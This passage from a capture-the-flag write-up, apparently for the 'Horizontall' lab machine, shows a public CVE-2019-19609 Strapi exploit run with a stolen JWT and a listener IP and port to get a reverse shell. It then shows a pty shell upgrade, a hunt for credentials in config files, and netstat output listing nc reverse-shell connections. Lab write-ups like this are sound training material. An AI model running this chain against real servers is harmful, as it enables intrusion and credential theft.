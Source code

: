> Now that I am in.

> The exploit also showed a JSON token. I will use another exploit, that can be found here https://github.com/diego-tella/CVE-2019-19609-EXPLOIT

> Before I executed the above exploit, I started a listener.

```
python3 exploit.py -d api-prod.horizontall.htb -jwt [Add the JSON token from the previous exploit] -l [add your tunnel ip] -p [add your listener port number]
```

> Then, I have a shell. I made sure it is stable by adding the following command:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

> after navigating around the shell, I found the directory containing the user flag at this location /home/developer

> Looking around, I was able to find some credentails at this directory /myapi/config/environments/development. This took a lot of time to find.

#### credentails
<details><summary>
CLICK TO REVEAL
</summary></details>

> I tried to ssh using the credentails, and it didn't work.

> next on the shell, I ran the following command to check for open ports.

```
netstat -antlp
```

> Results

```
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1797/node /usr/bin/
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 10.10.11.105:33500      10.10.14.3:1234         CLOSE_WAIT  26561/nc            
tcp        0      0 10.10.11.105:45374      10.10.14.18:3535        CLOSE_WAIT  5277/nc             
tcp        0      0 10.10.11.105:33490      10.10.14.3:1234         CLOSE_WAIT  24847/nc            
tcp        0    173 10.10.11.105:33506      10.10.14.3:1234         ESTABLISHED 26669/nc            
tcp        0      0 10.10.11.105:45388      10.10.14.18:3535        CLOSE_WAIT  23892/nc            
tcp        0      0 10.10.11.105:22         10.10.14.3:52882        FIN_WAIT2   -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -
```
